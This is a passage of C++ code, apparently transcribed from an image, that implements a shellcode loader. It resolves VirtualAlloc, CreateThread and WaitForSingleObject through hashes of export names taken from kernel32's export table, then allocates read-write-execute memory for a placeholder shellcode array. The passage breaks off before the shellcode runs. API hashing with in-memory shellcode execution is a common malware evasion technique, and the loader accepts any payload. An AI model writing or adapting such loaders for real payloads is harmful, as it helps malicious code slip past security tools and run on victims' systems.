 ```cpp

    DWORD* namesRVA = (DWORD*)((BYTE*)hModule + exportDir->AddressOfNames);
    WORD* ordinals = (WORD*)((BYTE*)hModule + exportDir->AddressOfNameOrdinals);
    DWORD* functions = (DWORD*)((BYTE*)hModule + exportDir->AddressOfFunctions);

    for (DWORD i = 0; i < exportDir->NumberOfNames; i++) {
        const char* functionName = (const char*)((BYTE*)hModule + namesRVA[i]);
        DWORD hash = CalculateHash(functionName);

        if (hash == targetHash) {
            WORD ordinal = ordinals[i];
            DWORD functionRVA = functions[ordinal];
            return (FARPROC)((BYTE*)hModule + functionRVA);
        }
    }

    return nullptr;
}

// Example shellcode (for demonstration only)
unsigned char shellcode[] = {
    0x48, 0x31, 0xc0,                         // xor rax, rax
    0x48, 0xff, 0xc0,                         // inc rax
    0xc3                                      // ret
};

int main() {
    // Precomputed hashes for the desired APIs
    DWORD hashVirtualAlloc = CalculateHash("VirtualAlloc");
    DWORD hashCreateThread = CalculateHash("CreateThread");
    DWORD hashWaitForSingleObject = CalculateHash("WaitForSingleObject");

    std::cout << "VirtualAlloc hash: 0x" << std::hex << hashVirtualAlloc << std::endl;
    std::cout << "CreateThread hash: 0x" << std::hex << hashCreateThread << std::endl;
    std::cout << "WaitForSingleObject hash: 0x" << std::hex << hashWaitForSingleObject << std::endl;

    // Get kernel32.dll base
    HMODULE hKernel32 = GetModuleBase("kernel32.dll");
    if (!hKernel32) {
        std::cerr << "Failed to get kernel32.dll base address" << std::endl;
        return -1;
    }

    // Resolve APIs by hash
    auto pVirtualAlloc = (LPVOID(WINAPI*)(LPVOID, SIZE_T, DWORD, DWORD))ResolveFunctionByHash(hKernel32, hashVirtualAlloc);
    auto pCreateThread = (HANDLE(WINAPI*)(LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD))ResolveFunctionByHash(hKernel32, hashCreateThread);
    auto pWaitForSingleObject = (DWORD(WINAPI*)(HANDLE, DWORD))ResolveFunctionByHash(hKernel32, hashWaitForSingleObject);

    if (!pVirtualAlloc || !pCreateThread || !pWaitForSingleObject) {
        std::cerr << "Failed to resolve one or more functions." << std::endl;
        return -1;
    }

    // Allocate memory for shellcode
    LPVOID execMem = pVirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!execMem) {
        std::cerr << "VirtualAlloc failed." << std::endl;
        return -1;
```